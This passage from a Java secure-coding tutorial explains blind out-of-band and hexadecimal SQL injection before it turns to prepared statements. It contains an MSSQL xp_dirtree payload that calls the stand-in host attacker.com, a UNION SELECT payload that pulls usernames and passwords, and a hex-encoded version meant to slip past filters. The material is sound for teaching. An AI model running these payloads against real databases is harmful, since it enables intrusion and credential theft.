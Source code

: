 This type of blind SQLi is an artwork and the success of the attack mostly relies on the configuration of our target. For a simple example, we will assume that our target is a Microsoft SQL Server with enabled extended stored procedures.

To do the attack, our bad guy starts server at `attacker.com` that intercepts incoming DNS queries. His goal is to make DBMS initiate DNS request to his server that would be a signal for him that database is vulnerable.

So he tries to pass payload to following query:

```sql
'; EXEC master..xp_dirtree '//attacker.com/sample'--
```

`xp_dirtree` makes database to initiate a DNS lookup for the domain `attacker.com` as it attempts to resolve the network path `//attacker.com/sample`. This DNS query is sent out because the database server tries to access the specified network file path, which requires resolving the domain name to an IP address. Again, he doesn't try to read anything, the key is in **alerting** that target is vulnerable and not in fetching some data from our server.

Thus, Blind SQL Injection is used to detect if the database is vulnerable to SQL Injection attacks. In the real world, bad guys from Black Hat communities gather big databases of URLs where specific software (especially e-commerce) is hosted and use such blind methods to filter vulnerable ones to make attacks.

### Hexadecimal SQL Injection

If the basic SQL injection is about lack of input validation then Hexadecimal SQLi is about lack of **proper** input validation.

In a standard SQL Injection attack, we expect something close to such a view of payload:

```sql
' UNION SELECT username, password FROM users --
```

, while in Hexadecimal SQL Injection it will look like this:

```sql
0x2720554e494f4e2053454c45435420757365726e616d652c2070617373776f72642046524f4d207573657273202d2d0d0a
```

Its effectiveness lies in its ability to conceal the true intent of malicious payload. Security systems that are based on inspecting queries may overlook such representation of data, which would lead to bypassing security filters and very bad consequences. It requires systems not only to look for specific keywords or patterns but also to analyze hexadecimal values, that may not be so obvious.

### How to protect from SQL injections in Java?

First and foremost remember: Input validation is one of your best friends in secure coding practices. You can use [**NetArmor's**](../armor) validator features to validate the input and move to following points:

##### Prepared statements

A prepared statement is a pre-compiled SQL statement, that allows separating data passed to query from statement, which excludes chance of interpreting data as a part of SQL code:
